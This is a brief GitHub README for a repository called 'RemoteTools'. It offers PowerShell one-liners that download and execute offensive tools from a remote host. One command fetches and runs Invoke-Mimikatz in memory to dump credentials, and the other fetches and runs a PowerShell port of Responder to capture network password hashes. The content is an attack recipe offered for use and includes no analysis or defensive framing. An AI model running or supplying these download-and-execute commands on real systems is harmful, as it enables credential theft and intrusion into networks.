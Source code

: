 # RemoteTools

## These are configured to be run via powershell remotely.  

### Credit to the original authors 

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

